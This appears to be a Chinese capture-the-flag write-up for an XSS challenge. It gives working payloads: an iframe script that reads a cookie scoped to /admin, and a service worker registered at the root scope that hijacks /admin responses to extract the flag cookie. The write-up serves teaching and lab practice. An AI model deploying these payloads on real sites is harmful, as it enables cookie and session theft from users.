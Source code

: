 ## 第三新XSS

### 巡猎

flag cookie 在 /admin 的 path 上，可以创建一个 iframe 去读。

```html
<iframe id="inline" title="inline" width="300" height="200" src="/admin">
</iframe>
<script>
  function a() {
    var cookie = document.getElementById("inline").contentDocument.cookie;
    document.title = cookie;
  }
</script>

<body onload=a()>
```

### 记忆

bot 先访问 xss 页再访问 admin 页面，第一阶段没什么想法，根据第二阶段提示，需要注册一个 service worker 到 / 这个 scope 上。这个 service worker 可以拦截 /admin，返回我们的网页，然后用这个网页把 flag cookie 拿出来。

xss 页：注册 service worker

```html
<script>
    window.addEventListener('load', function() {
        navigator.serviceWorker.register('/sw/', {scope: '/'}).then(function(registration) {
            console.log('ServiceWorker registration successful with scope: ', registration.scope);
        }, function(err) {
            console.log('ServiceWorker registration failed: ', err);
        });
    });
</script>
```

service worker 内容：拦截 /admin 页面

```js
self.addEventListener('fetch', function(event) {
    console.log('fetch')
    return event.respondWith(fetch("/admin2/"));
});
self.addEventListener('activate', function(event) {
    console.log('activate');
    return self.clients.claim();
});
self.addEventListener('install', function(event) {
    console.log('install');
});
```
因为 scope 限制，所以设置一下 service worker 的 header。
